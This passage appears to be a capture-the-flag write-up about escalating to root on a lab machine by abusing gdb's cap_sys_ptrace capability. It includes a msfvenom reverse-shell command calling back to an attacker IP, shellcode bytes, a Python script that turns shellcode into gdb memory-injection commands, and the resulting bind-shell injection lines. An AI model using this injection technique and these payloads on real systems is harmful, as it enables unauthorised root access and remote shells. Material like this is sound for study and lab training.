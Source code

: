 ```bash
developer@faculty:/tmp$ groups
groups
developer debug faculty
developer@faculty:/tmp$ find / -group debug 2>/dev/null
find / -group debug 2>/dev/null
/usr/bin/gdb
developer@faculty:/tmp$ getcap /usr/bin/gdb 
getcap /usr/bin/gdb 
/usr/bin/gdb = cap_sys_ptrace+ep
```

The ptrace capability here allows the affected script to attach to other processes and trace their system calls. With gdb it should allow us to attach to a root process and inject into its memory a shell. I started trying a regular shell but ended up using a bind shell after some testing. 

[https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_ptrace](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_ptrace) has more about creating a payload. The payload generator is pasted below, change the top buf variable to be the bind shell [https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128). 

```python
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (8 - len(buf) % 8 ) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
	chunk = payload[i:i+8][::-1]
	chunks = "0x"
	for byte in chunk:
		chunks += f"{byte:02x}"

	print(f"set {{long}}($rip+{i}) = {chunks}")
```

After inserting my bind shell payload and adding some no-op (NOP) bytes at the start the resulting script generates:

```
set {long}($rip+0) = 0x9090909090909090
set {long}($rip+8) = 0x48d23148c0314890
set {long}($rip+16) = 0x6a58296ac6fff631
set {long}($rip+24) = 0x026a9748050f5f02
set {long}($rip+32) = 0x54e015022444c766
set {long}($rip+40) = 0x5a106a58316a525e
set {long}($rip+48) = 0x050f58326a5e050f
set {long}($rip+56) = 0x6a9748050f582b6a
set {long}($rip+64) = 0x050f21b0ceff5e03
set {long}($rip+72) = 0x2fbb4852e6f7f875
set {long}($rip+80) = 0x5368732f2f6e6962
set {long}($rip+88) = 0x050f3bb0243c8d48
```
